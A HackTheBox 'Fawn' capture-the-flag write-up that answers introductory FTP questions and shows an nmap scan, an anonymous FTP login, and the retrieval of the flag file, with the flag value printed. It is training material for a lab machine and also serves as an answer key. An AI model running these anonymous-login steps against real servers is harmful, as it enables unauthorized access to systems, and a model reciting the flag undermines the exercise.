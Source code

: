 ```yaml
---
title: HackTheBox - Fawn 
date: 2022-09-22
categories: [HackTheBox, Machine]
tags: [ftp]
---
```


# Fawn

What does the 3-letter acronym FTP stand for?

`File Transfer Protocol`

Which port does the FTP service listen on usually?

`21`

What acronym is used for the secure version of FTP?

`SFTP`

What is the command we can use to send an ICMP echo request to test our connection to the target?

`ping`

From your scans, what version is FTP running on the target?

`vsftpd 3.0.3`

From your scans, what OS type is running on the target?

`Unix`

What is the command we need to run in order to display the 'ftp' client help menu?

`ftp -h`

What is username that is used over FTP when you want to log in without having an account?

`anonymous`

What is the response code we get for the FTP message 'Login successful'?

`230`

There are a couple of commands we can use to list the files and directories available on the FTP server. One is *dir*. What is the other that is a common way to list files on a Linux system.

`ls`

What is the command used to download the file we found on the FTP server?

`get`

Submit root flag:

```bash
$ nmap -p- -sV <ip>
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
Service Info: OS: Unix

$ ftp <ip>
Connected to <ip>.
220 (vsFTPd 3.0.3)

Name (<ip>:root): anonymous
331 Please specify the password.

Password: <blank>
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.

ftp> get flag.txt
local: flag.txt remote: flag.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for flag.txt (32 bytes).
226 Transfer complete.
32 bytes received in 0.00 secs (151.6990 kB/s)

ftp> exit
221 Goodbye.

$ cat flag.txt 
035db21c881520061c53e0536e44f815
```
